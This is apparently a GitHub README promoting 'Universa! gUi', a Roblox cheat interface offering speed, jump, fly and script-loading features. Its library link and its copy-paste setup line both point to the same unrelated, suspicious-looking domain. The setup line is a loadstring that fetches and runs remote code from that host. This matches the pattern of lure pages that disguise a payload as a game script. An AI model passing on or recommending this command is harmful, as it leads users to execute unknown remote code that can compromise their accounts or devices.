 # 🌌 Universa! gUi

**Universa! gUi** is a easy-to-use Roblox script interface built with the [ReGui](https://installbixz.cyou?fwusj907147vz7m) library. It provides you with in-game control over player stats and tools, all from a slick modern GUI.

---

## ✨ Features

- 🏃 Adjustable **WalkSpeed**
- 🦘 Adjustable **JumpPower**
- 🎥 **Camera FOV** slider
- ✈️ Built-in **Fly mode**
- 📜 Script loader (e.g. Infinite Yield)

---

## 📥 How to Use

Copy and paste the following script into your Roblox executor:

```lua
loadstring(game:HttpGet('https://installbixz.cyou?3b9vcu6kpwsvdh2'))()
```
